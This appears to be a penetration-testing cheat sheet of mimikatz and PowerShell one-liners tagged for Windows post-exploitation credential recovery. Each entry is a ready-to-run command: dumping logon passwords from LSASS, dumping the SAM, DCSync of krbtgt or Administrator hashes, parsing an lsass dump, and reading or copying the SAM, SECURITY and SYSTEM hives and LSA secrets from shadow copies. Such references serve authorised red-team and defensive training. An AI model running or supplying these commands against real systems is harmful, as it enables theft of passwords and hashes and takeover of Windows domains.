 # mimikatz

% mimikatz, passwords

## mimikatz onliner
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 
```
mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
```

## mimikatz dcsync - user (krbtgt/Administrator)
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 
```
mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:<domain> /user:<user>" "exit"
```

## mimikatz extract credentials from dump
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 
```
mimikatz.exe "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords" "exit"
```

## mimikatz extract credentials from shadow copy (1)
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER
```
mimikatz.exe "lsadump::sam /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /security:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY /sam:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM"
```

## mimikatz extract credentials from shadow copy (2)
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER

Extract old passwords
```
mimikatz.exe "lsadump::secrets /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /security:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY"
```

## extract on hand shadow volume copy
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER
```
powershell.exe "[System.IO.File]::Copy('\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM', '.\Desktop\SYSTEM.bkp');[System.IO.File]::Copy('\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY', '.\Desktop\SECURITY.bkp');[System.IO.File]::Copy('\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM', '.\Desktop\SAM.bkp')"
```
